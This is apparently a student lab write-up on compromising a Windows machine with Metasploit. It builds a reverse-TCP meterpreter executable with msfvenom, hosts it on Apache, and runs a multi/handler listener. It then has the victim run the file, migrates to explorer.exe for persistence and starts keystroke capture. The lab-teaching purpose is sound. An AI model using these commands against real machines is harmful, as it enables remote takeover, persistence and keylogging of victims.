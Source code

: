 # Reg no: 212224040232
# Date  : 12-04-2025
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1con](https://github.com/user-attachments/assets/0d25e9d9-c4b8-4ac8-ac9f-345b4ec13e00)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2venom](https://github.com/user-attachments/assets/488fa0a4-6c42-491c-af54-2ce2a5b3cebc)

copy the fun.exe into the apache /var/www/html folder

![3cp](https://github.com/user-attachments/assets/8c032d11-68d5-4cc4-92c0-9cee47f59626)

Start apache server
sudo systemctl apache2 start

![4sys](https://github.com/user-attachments/assets/e63fed3e-ece1-49ed-bf4c-c51562e9821f)

Check the status of apache2

![5stat](https://github.com/user-attachments/assets/e0b4745e-2798-4a07-8cc6-04851015a04e)

Invoke msfconsole:

![6msfc](https://github.com/user-attachments/assets/64acdbd3-c086-4101-95b6-ce6e4d81b73b)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7help](https://github.com/user-attachments/assets/4e8232ee-33aa-4455-8a72-391b4eff3d01)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![8](https://github.com/user-attachments/assets/39b60011-8a30-4c59-bab3-083e062e2632)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![8download](https://github.com/user-attachments/assets/a26d4eb4-dbc9-4a69-8328-a0fa2cfdf942)

Bypass any warning boxes, double-click the file, and allow it to run.

![9show](https://github.com/user-attachments/assets/8a60e1e0-626d-4d52-a331-18887ba75425)

On kali give the command exploit

![10com](https://github.com/user-attachments/assets/1218d326-1024-4702-83f1-8eac34ba66a4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running 

![11sho](https://github.com/user-attachments/assets/472c76bb-f732-4508-9d82-92bcc8f7b255)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

![12mig](https://github.com/user-attachments/assets/39eab6b3-a07a-4412-8760-2de39ec788b7)

at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted

![13sho](https://github.com/user-attachments/assets/f7c48cdc-d11f-4515-b053-87173525947b)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![15keyscan](https://github.com/user-attachments/assets/ddfc16fa-9ae9-44dd-880f-7d15c2feb0c1)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
